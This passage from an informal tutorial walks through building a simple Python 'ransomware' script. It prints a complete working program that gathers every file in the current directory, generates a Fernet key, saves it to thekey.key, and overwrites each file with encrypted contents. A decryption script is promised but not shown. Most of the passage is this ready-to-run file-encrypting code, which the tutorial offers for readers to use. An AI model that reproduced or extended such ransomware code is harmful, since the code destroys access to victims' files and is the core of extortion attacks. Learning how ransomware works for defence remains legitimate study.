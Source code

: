 ### Encryption
Now's the fun part.
So using a for loop, we,ll loop through the files in our files list, and encrpyt them using fernet and the key we generated
```python
for file in files:
    with open(file,"rb") as thefile:
        contents = thefile.read()
    encrypted_content = Fernet(key).encrypt(contents)
    with open(file, 'wb') as thefile:
        thefile.write(encrypted_content)
```
so in the above snippet we are looping through the file list, and for each file in the list, we are opening that file in read binary mode 'rb', then storing it's contents in a variable called contents, then creating another variable called encrypted_contents, and we'll assing it the encrypted contents genrated by Fernet, Fernet takes in the key as a parameter, then uses the encrypt method, to encrypt the contents of the file.
While still in the loop, we again open the file but this time in write binary mode, 'wb', and for each file, we'll write the encrypted contents to the file, thus overwriting the content which was already there.

And that's it for the encryption script. Now if ou run the _ransomware.py_ file, and you try to read the contents of the files in your directory, it will just be mixed numbers,symbols and letters similar to this: `gAAAAABiz9knxX1sUzQkEezhlwtdfX010QdBNSd_Ov5MUgMcBkPVahNDgOBpOd7K7h5XMOo6bneIeVaSk6pvn8Ht6kFRMTOUH6zMnxGTaIeXqf-DkWI7hgE=`

Now the encryption script, should be looking  similar this: 
```python
import os

from cryptography.fernet import Fernet


#   First step is to find all files in our current directory and store them in a list

files = []

#   Next we'll use a for loop to add all files in the current directory to our files list
for file in os.listdir():
    if file == 'ransomware.py' or file == 'thekey.key' or file == 'decrypt.py':
        continue
    #   We also need to confirm that we are only grabbing files and not directories
    if os.path.isfile(file):
        files.append(file)

#   We'll create a key that is going to encrypt our files
key = Fernet.generate_key()

#   Next we'll save the key in an external file 
#   So we'll open a file using the with command filename will be "thekey.key" write mode is 'wb' short for write binary

with open('thekey.key','wb') as thekey:
    thekey.write(key)


#   Next we'll encrypt all the files in our file list
for file in files:
    with open(file,"rb") as thefile:
        contents = thefile.read()
    encrypted_content = Fernet(key).encrypt(contents)
    with open(file, 'wb') as thefile:
        thefile.write(encrypted_content)
```
 Next we'll create a decryption script that will decrypt for us the files.